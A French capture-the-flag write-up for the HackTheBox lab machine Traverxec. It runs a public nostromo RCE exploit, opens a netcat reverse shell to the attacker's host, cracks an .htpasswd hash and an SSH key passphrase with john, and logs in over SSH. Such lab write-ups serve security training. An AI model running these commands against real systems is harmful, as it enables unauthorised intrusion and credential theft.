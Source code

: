 ![Pic1](../img/traverxec1.PNG?raw=true) </br>

# Présentation
Traverxec est une box Linux dont l'adresse IP est 10.10.10.165.</br>

Compétences mises en oeuvre :</br>
* Enumération des ports et services d'une machine distante.


</br>

# Enumération initiale

Nous commençons l'énumération par les ports et services disponibles avec nmap :
```bash
$ nmap -T4 -A 10.10.10.165
```
![Pic2](../img/traverxec2.PNG?raw=true) </br>
Deux ports sont ouverts :</br>
* 22 pour un OpenSSH en version 7.9
* 80 pour un serveur web nostromo en version 1.9.6
</br>

Nous allons faire une énumération des fichiers et dossiers présents sur le site web avec dirsearch :  
```bash
$ dirsearch -w wordlist -e "php,txt" -f -t 100 -x 400,403,404,501 -u http://10.10.10.165/
```
![Pic3](../img/traverxec3.PNG?raw=true) </br>

# Obtenir un accès utilisateur
Nous avons vu que le serveur web en écoute était un nostromo 1.9.6, ce qui n'est pas commun, nous allons voir s'il existe un exploit pour 
cette version avec searchsploit :
```bash
$ searchsploit nostromo
```
![Pic4](../img/traverxec4.PNG?raw=true) </br>

Nous allons chercher la RCE qui correspond à la version de nostromo et l'executer :
```bash
$ locate 47837.py
$ cp /usr/share/exploitdb/exploits/multiple/remote/47837.py ./
$ cat 47837.py
```
![Pic5](../img/traverxec5.PNG?raw=true) </br>
Pour l'utiliser, il faut mettre en argumant l'ip de la box + son port + la commande à exécuter, donc nous testons :
```bash
$ python 47837.py 10.10.10.165 80 hostname
```
![Pic6](../img/traverxec6.PNG?raw=true) </br>
Nous allons alors utiliser le netcat de la box pour obtenir un shell :
```bash
# Nous mettons un listener sur notre machine :
$ nc -lvnp 4567
# Toujours sur notre machine mais sur un autre shell :
$ python 47837.py 10.10.10.165 80 "nc 10.10.14.6 4567 -c bash"
```
![Pic7](../img/traverxec7.PNG?raw=true) </br>
Nous avons un shell en tant que www-data, nous allons faire de l'énumération de base :
```bash
$ python -c "import pty;pty.spawn('/bin/bash')"
$ find / -type d -perm 0755 2>/dev/null
```
![Pic8](../img/traverxec8.PNG?raw=true) </br>
Un résultat (non-exhaustif) plutot dense mais nous pouvons voir que nous avons accès a plusieurs fichiers de Nostromo, y compris son fichier de configuration nhttpd.conf :
```bash
$ cat /var/nostromo/conf/nhttpd.conf
$ cat /var/nostromo/conf/.htpasswd
```
![Pic9](../img/traverxec9.PNG?raw=true) </br>
Le fichier nhttpd.conf va lire le mot de passe de l'utilisateur david dans le fichier .htpasswd, grâce à lui nous avons son hash, que nous crackons avec john :
```bash
$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
![Pic10](../img/traverxec10.PNG?raw=true) </br>
Nous avons donc un utilisateur et son mot de passe : david:Nowonly4me</br>
Malheureusement, ce mot de passe n'est que pour le serveur web Nostromo. Néanmoins, dans le fichier nhttpd.conf, il y a un répertoire public_www de spécifié. Nous allons
donc commencer l'énumération par là-bas :
```bash
$ ls -aril /home/david/public_www
```
![Pic11](../img/traverxec11.PNG?raw=true) </br>
Nous voyons un dossier protected-file-area qui contient une archive que nous allons dézipper :
```bash
$ ls protected-file-area
$ cd protected-file-area
$ cp backup-ssh-identity-files.tgz /tmp/
$ tar zxvf /tmp/backup-ssh-identity-files.tgz
```
![Pic12](../img/traverxec12.PNG?raw=true) </br>
Des fichiers concernant ssh, nous pouvons alors récupérer id_rsa pour se connecter à distance sur la machine en ssh, il va falloir cracker la passphrase avec john :
```bash
$ ssh2john.py id_rsa > passphrase_hash
$ john passphrase_hash --wordlist=/usr/share/wordlists/rockyou.txt
```
![Pic13](../img/traverxec13.PNG?raw=true) </br>
Nous pouvons alors nous connecter en tant que david en ssh et récupérer le user.txt :
```
$ cmod 600 id_rsa
$ ssh -i id_rsa david@10.10.10.165
passphrase : hunter
```
![Pic14](../img/traverxec14.PNG?raw=true) </br>
